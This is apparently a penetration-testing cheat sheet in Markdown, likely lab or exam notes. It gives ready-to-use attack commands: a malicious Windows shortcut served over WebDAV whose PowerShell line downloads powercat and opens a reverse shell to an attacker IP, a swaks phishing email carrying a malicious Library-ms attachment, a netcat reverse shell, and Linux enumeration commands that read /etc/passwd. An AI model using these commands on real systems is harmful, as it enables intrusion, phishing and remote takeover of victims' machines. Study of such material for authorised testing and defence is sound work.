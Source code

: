 Host a malicious windowss shortcut file in that webdav directory that will gonna give us back the reverse shell.
```shell
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
Shortcut file content
```shell

powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.45.175 -p 4444 -e powershell"

```

Upload malicious pdf, docx, odt, Library-ms file to SMB or send to email.
```shell
sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach @config.Library-ms --server 192.168.227.199 --body @body.txt --header "Subject: Problems" --suppress-data

# or use
evolution
```

For More, Check Out: [[Code & Exploit Cheatsheet]]
## 🐧 <font color="#fac08f">Victim Linux Commands</font>
### For more 
- [linux privesc basic](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [PayloadAllthethings LinuxPrives](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
### Stabilizing shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo && fg

export TERM=xterm
export SHELL=bash
stty rows <num> columns <num>
stty size

# whenever you run any exploit and getting no output then try getting back the connection on another listener
c:\xampp\nc.exe 192.168.45.244 9999 -e powershell.exe

# in case command not found occur in windows then

set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;

```
### 🔍Enumeration
```shell
sudo updatedb
locate <file> # to locate any file

id
cat /etc/passwd
hostname  # gives hint of the purpose of the machine
env 
```
#### User & Operating System
```shell
cat /etc/issue
cat /etc/*-release
cat /proc/version
arch
```